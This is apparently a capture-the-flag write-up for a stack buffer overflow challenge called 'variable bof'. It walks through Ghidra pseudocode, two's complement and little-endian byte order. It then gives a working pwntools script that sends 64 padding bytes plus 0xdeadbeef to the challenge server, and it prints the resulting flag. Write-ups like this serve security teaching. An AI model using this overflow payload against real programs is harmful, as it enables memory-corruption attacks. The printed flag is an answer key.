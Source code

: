 # variable bof
![image](https://user-images.githubusercontent.com/34862954/164884883-ec4ea2ec-b96c-4770-bd14-fd0584328d66.png)

## Approach
Once again, disassembly the file with ghidra to view the pseudocode.\
![image](https://user-images.githubusercontent.com/34862954/164883191-83c106af-6abd-40a2-8539-db44fe824706.png)

Hmmmm.<br>
Here we have to make the value of local_128 as `-0x21524111`\
Wait what's that? Negative hex?\
Well if you convert that hex into decimal and then convert it to hex by 2's compliment\
It's `0xdeadbeef` 🔥

Now how can make that local_128 equal to 0xdeadbeef?!<br>
We need to know that the stack grows downward<br>
![image](https://user-images.githubusercontent.com/34862954/164883524-0d5bc8f8-9613-4e18-bbd1-1fc260d963c9.png)

So we need the bufferflow attack like this. first 64 A's then deadbeef but in reverse order.<br>![image](https://user-images.githubusercontent.com/34862954/164884035-e9b0b1c2-d862-4953-bfb2-b754e84df1b8.png)

Now our attack string is `'A'*64 + '\xEF\xBE\xAD\xDE'`

I used pwntools to make the attack as manually copying the string won't work as it may hv some non printable characters.

```python
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2420)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

#just dont forget this '\n' at the end 
payload = 'A'*64 +'\xEF\xBE\xAD\xDE' + '\n' 

conn.send(payload)
print(conn.recvline())

conn.close()
```

This will do the work. Yeah, pwntools are simply awesome!!
![image](https://user-images.githubusercontent.com/34862954/164884849-de65b57a-9fc5-42b7-9424-f620b2b9bf5a.png)
Yay u got the flag.

`flag: wannahack{H0w_d1d_y0u_c5@ng3_M3_!!!!!}`


